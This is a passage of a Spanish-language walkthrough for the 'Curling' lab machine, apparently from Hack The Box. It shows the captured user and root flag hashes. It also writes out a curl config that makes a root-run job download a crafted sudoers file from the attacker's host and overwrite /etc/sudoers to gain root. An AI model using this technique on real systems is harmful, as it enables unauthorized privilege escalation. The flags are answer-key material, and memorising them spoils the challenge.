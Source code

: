     System load:  0.0               Processes:            179
    Usage of /:   62.3% of 3.87GB   Users logged in:      0
    Memory usage: 21%               IP address for ens33: 10.10.10.150
    Swap usage:   0%


    0 updates can be applied immediately.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.


    Last login: Wed Sep  8 11:42:07 2021 from 10.10.14.15
    floris@curling:~$ ls
    admin-area  password_backup  user.txt
    floris@curling:~$ cat user.txt
    aa95098c3c19c00e6d6c2e6c90765564

Ya pude conseguir el flag de usuario. Ahora llega el momento del escalado de privilegios.

Escalado de privilegios
------

Algo interesante es el directorio 'admin-area' en la carpeta de floris. Vamos a ver que hay dentro.<br/>

    floris@curling:~/admin-area$ ls -lah
    total 28K
    drwxr-x--- 2 root   floris 4.0K Aug  2  2022 .
    drwxr-xr-x 6 floris floris 4.0K Jan 24 11:06 ..
    -rw-rw---- 1 root   floris   25 Jan 24 11:07 input
    -rw-rw---- 1 root   floris  14K Jan 24 11:07 report
    floris@curling:~/admin-area$ cat input
    url = "http://127.0.0.1"

Resulta que contiene dos ficheros, uno llamado 'input' y el otro llamado 'report', el input contiene una URL para la cual el report mostrará la salida. En el caso actual, input contiene la URL base y report contiene el HTML de la página inicial. Puedo utilizar este proceso a mi favor cambiando la URL del input a una dirección con contenido confidencial, voy a probar.<br/><br/>

Lo que voy a hacer va a ser, crearme un fichero 'sudoers' en mi máquina que contenga al usuario 'floris' y descargarlo en la víctima en el directorio /etc. Metiéndole el siguiente contenido al fichero 'input', se sobreescribirá el fichero 'sudoers' añadiendo a 'floris' como usuario root.<br/>

    url = "http://10.10.14.31/sudoers"
    output = "/etc/sudoers"
    user-agent = "nicgarc/1.0"

Una vez que guardo los cambios en el fichero 'input', automaticamente recibo un request de GET para el fichero 'sudoers' por parte de la víctima a mi máquina local como se puede ver a continuación.<br/>

    ┌──(root㉿kali)-[/home/nico/htb/www]
    └─# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.150 - - [24/Jan/2024 12:33:02] "GET /sudoers HTTP/1.1" 200 -

Ahora solo queda hacer 'sudo su -' y tendría acceso como root pudiendo obtener el flag del root.<br/>

    floris@curling:~/admin-area$ sudo su -
    root@curling:~# cd /root
    root@curling:~# ls
    default.txt  root.txt
    root@curling:~# cat root.txt 
    409a86484fab3e76d47337d94b8fb573